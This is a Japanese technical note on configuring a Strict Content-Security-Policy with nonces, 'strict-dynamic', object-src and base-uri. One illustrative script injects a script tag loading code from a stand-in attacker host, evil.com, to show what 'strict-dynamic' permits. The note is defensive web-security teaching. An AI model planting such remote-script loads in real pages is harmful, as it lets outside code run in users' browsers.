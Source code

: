 ### Strict CSP
ディレクティブにホスト名を指定したCSP設定ではXSSの脆弱性が発生するケースがあるらしく、Googleではホスト名を指定する代わりに`nonce-source`や`hash-source`を使った「Strict CSP」を推奨しているそう。

```bash
Content-Security-Policy: 
  script-src 'nonce-r4nd0m123abc' 'strict-dynamic';
  style-src 'nonce-r4nd0m123abc' 'unsafe-inline' https:;
  object-src 'none';
  base-uri 'none';
  require-trusted-types-for 'script'
```

- 'strict-dynamic'
  - 信頼できるスクリプトから動的に生成されたスクリプトを許可

```html
<script nonce="r4nd0m123abc">
  // nonce-source や hash-source が設定されたページでもスクリプトの動的生成は禁止されている
  // しかし、'strict-dynamic'をCSPヘッダに設定しておくことで制限が解除される
  const s = document.createElement('script');
  s.src = "https://evil.com/evilAttack.js";
  document.body.appendChild(s); 

  // ただし、innerHTML や document.write は'strict-dynamic'を使っても無効となる
  document.querySelector('h1').innerHTML = `<span>innerHTML や document.write は'strict-dynamic'を使っても無効</span>`
</script>
```

- object-src
  - `<object>`, `<embed>`, `<applet>`要素の制御
  - `object-src 'none'`と指定することで Flash などのプラグインを悪用した攻撃を防げる

- base-uri
  - `<base>`要素（そのページ内のリンクやリソースのURL基準となるURL{例：相対パス}を設定する）で使用可能なURLを制御
  - `base-uri 'none'`と指定することで、攻撃者によって罠サイトへのURLへと変更されるような`<base>`要素の挿入をブロックする

#### nonce-source
- 概要: サーバが生成する一意のランダム値（トークン）を使用してスクリプトを許可
- 形式: `'nonce-[BASE64値]'`
- 特徴: リクエストごとに異なる値（トークン）を生成し、予測不可能

```bash
Content-Security-Policy: script-src 'nonce-r4nd0m123abc'
```

- nonce属性を用いたインラインスクリプトの実行可否の例<br>
※事例は`<script>`要素のインラインスクリプトだが、`<script>`要素を用いたJavaScriptファイルの読込も、同様にnonce属性がないと拒否される。
```html
<!-- 許可されるスクリプト -->
<script nonce="r4nd0m123abc">
  console.log('This script is allowed');
</script>

<!-- 拒否されるスクリプト（nonceなし） -->
<script>
  console.log('This script is blocked');
</script>
```
